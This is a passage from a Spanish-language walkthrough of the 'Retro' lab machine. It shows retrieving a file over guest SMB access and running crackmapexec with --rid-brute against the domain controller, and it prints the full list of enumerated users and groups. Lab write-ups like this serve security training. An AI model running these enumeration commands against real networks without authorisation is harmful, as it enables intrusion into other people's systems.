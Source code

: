 - Encontramos lo siguiente.

```bash
smb: \> get Important.txt
getting file \Important.txt of size 288 as Important.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> exit
➜  content cat Important.txt
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins%
```

- Y bueno, nos dicen que él la administración está cansada de tener que lidiar con el problema recurrente de las contraseñas olvidadas, crearon una cuenta para todos los **trainees**.

- Según el admin creo una cuenta para todos, vamos a realizar un ataque de fuerza bruta con **crackmapexec** con los **RIDs** de los usuarios del dominio junto con sus **SID** .

<p align="center">
<img src="https://i.imgur.com/U4ZlMAD.png">
</p>

```bash
➜  content crackmapexec smb 10.10.65.176 -u 'guest' -p '' --rid-brute
SMB         10.10.65.176    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.65.176    445    DC               [+] retro.vl\guest:
SMB         10.10.65.176    445    DC               [+] Brute forcing RIDs
SMB         10.10.65.176    445    DC               498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.65.176    445    DC               500: RETRO\Administrator (SidTypeUser)
SMB         10.10.65.176    445    DC               501: RETRO\Guest (SidTypeUser)
SMB         10.10.65.176    445    DC               502: RETRO\krbtgt (SidTypeUser)
SMB         10.10.65.176    445    DC               512: RETRO\Domain Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               513: RETRO\Domain Users (SidTypeGroup)
SMB         10.10.65.176    445    DC               514: RETRO\Domain Guests (SidTypeGroup)
SMB         10.10.65.176    445    DC               515: RETRO\Domain Computers (SidTypeGroup)
SMB         10.10.65.176    445    DC               516: RETRO\Domain Controllers (SidTypeGroup)
SMB         10.10.65.176    445    DC               517: RETRO\Cert Publishers (SidTypeAlias)
SMB         10.10.65.176    445    DC               518: RETRO\Schema Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               519: RETRO\Enterprise Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               520: RETRO\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.65.176    445    DC               521: RETRO\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.65.176    445    DC               522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.65.176    445    DC               525: RETRO\Protected Users (SidTypeGroup)
SMB         10.10.65.176    445    DC               526: RETRO\Key Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               527: RETRO\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               553: RETRO\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.65.176    445    DC               571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.65.176    445    DC               572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.65.176    445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.10.65.176    445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.10.65.176    445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.65.176    445    DC               1104: RETRO\trainee (SidTypeUser)
```